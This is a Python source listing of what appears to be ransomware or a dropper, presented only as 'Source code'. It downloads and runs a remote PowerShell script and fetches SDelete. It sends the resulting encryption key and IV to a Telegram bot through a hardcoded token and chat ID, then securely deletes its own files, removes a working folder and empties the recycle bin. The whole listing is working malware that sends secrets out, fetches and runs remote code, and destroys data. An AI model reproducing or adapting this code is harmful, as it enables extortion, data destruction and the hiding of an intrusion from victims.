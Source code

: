```py

def execute_powershell_script(script_path):
    process = subprocess.run(['powershell.exe', '-File', script_path], capture_output=True, text=True)
    output = process.stdout.splitlines()
    if len(output) >= 2:
        cee = output[0].strip()
        vee = output[1].strip()
        return (cee, vee)
    return (None, None)

def send_to_telegram(key, iv, token, chat_id):
    message = f'Key: {key}\nIV: {iv}0'
    url = f'https://api.telegram.org/bot{token}0/sendMessage'
    data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
    response = requests.post(url, data=data)

def securely_delete_files(ps_script_path, flag_file_path):
    if os.path.exists(ps_script_path):
        subprocess.run([sdelete_exe_path, ps_script_path], check=True)
    if os.path.exists(flag_file_path):
        subprocess.run([sdelete_exe_path, flag_file_path], check=True)

def delete_encrypt_folder(folder_path):
    if os.path.exists(folder_path):
        for root, dirs, files in os.walk(folder_path, topdown=False):
            for file in files:
                file_path = os.path.join(root, file)
                move_to_recycle_bin(file_path)
            for dir in dirs:
                dir_path = os.path.join(root, dir)
                move_to_recycle_bin(dir_path)
        move_to_recycle_bin(folder_path)

def move_to_recycle_bin(item_path):
    ps_command = f'\n    $shell = New-Object -ComObject Shell.Application\n    $folder = $shell.Namespace(0xA)\n    $folder.MoveHere("{item_path}0")\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def empty_recycle_bin():
    ps_command = '\n    $recycleBin = New-Object -ComObject Shell.Application\n    $binFolder = $recycleBin.Namespace(0xA)\n    $items = $binFolder.Items()\n    $items | ForEach-Object { Remove-Item $_.Path -Force -Recurse }\n    '
    subprocess.run(['powershell.exe', '-Command', ps_command], check=True)

def main():
    download_file(ps_script_url, ps_script_path)
    download_file(sdelete_zip_url, sdelete_zip_path)
    extract_sdelete(sdelete_zip_path, current_dir)
    cee, vee = execute_powershell_script(ps_script_path)
    if cee and vee:
        telegram_token = '7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0'
        chat_id = '1617506446'
        send_to_telegram(cee, vee, telegram_token, chat_id)
    securely_delete_files(ps_script_path, flag_file_path)
    delete_encrypt_folder(temp_encrypt_folder)
    empty_recycle_bin()
if __name__ == '__main__':
    main()
```

